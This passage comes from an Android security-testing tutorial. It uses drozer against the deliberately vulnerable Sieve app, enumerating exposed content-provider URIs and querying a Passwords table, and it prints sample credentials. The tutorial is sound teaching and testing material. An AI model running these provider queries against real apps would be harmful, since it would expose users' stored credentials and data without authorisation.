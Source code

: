 Fortunately, Android apps tend to give away hints about the content URIs. For instance, in the output of the `app.provider.info` command we see that `/Keys` probably exists as a path (although we cannot query it without the `READ_KEYS` permission).

drozer provides a scanner module that brings together various ways to guess paths and divine a list of accessible content URIs:

```bash
dz> run app.provider.finduri com.withsecure.example.sieve
Attempting to run shell module
Scanning com.withsecure.example.sieve...
content://com.withsecure.example.sieve.androidx-startup/
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/*/
content://com.withsecure.example.sieve.androidx-startup
content://com.withsecure.example.sieve.provider.FileBackupProvider/
content://com.withsecure.example.sieve.provider.FileBackupProvider
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/*
content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/
content://com.withsecure.example.sieve.provider.DBContentProvider/
content://com.withsecure.example.sieve.provider.DBContentProvider
content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords

```

This **Drozer module** scans the content providers exposed by the app `com.withsecure.example.sieve` and lists all accessible **URIs** (Uniform Resource Identifiers) that could potentially be used to interact with sensitive data (read/write).

Each `content://...` line is a **URI** exposed by a **Content Provider**. Other apps (including malicious ones) can try to interact with these URIs to:

- Read data (e.g., exported notes, credentials, etc.)
- Write data (e.g., corrupt or inject content)
- Trigger unintended behavior

We can now use other drozer modules to retrieve information from those content URIs, or even modify the data in the database:

```bash
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --vertical
Attempting to run shell module
     _id  1
 service  yayserviceyay
username  yayusernameyay
password  b'TVVNRFVHR0NbRlBNVU0=' (Base64-encoded)
   email  yayemailyay@yay.com

     _id  2
 service  booserviceboo
username  boousernameboo
password  b'VltbRFVHR0NbRlBWW1s=' (Base64-encoded)
   email  booemailboo@boo.com
```
